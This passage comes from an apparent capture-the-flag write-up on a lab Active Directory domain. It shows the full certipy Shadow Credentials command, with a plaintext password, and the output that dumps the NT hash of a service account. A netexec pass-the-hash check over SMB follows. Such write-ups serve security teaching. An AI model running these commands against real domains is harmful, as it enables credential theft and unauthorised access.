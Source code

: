 ### Get NTLM for Management\_SVC

#### Abuse Info

Again, Bloodhound shows how to abuse this from Linux:

![image-20241027153036590](/img/image-20241027153036590.png)

It suggests either a Targeted Kerberoast, or a Shadow Credential. I like Shadow Credentials here, so I’ll go with that.

#### Add Shadow Credential

The abuse information shows using [pywhisker](https://github.com/ShutdownRepo/pywhisker), but I’ll use `certipy`:

```

oxdf@hacky$ certipy shadow auto -username judith.mader@certified.htb -password judith09 -account management_svc -target certified.htb -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '91c77677-13a9-3225-4533-8a5ec50d7c90'
[*] Adding Key Credential with device ID '91c77677-13a9-3225-4533-8a5ec50d7c90' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '91c77677-13a9-3225-4533-8a5ec50d7c90' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584

```

This prints out the NTLM hash for the management\_svc account.

### WinRM

#### Check Hash

With that hash, I’ll check that it works for SMB:

```

oxdf@hacky$ netexec smb certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 

```
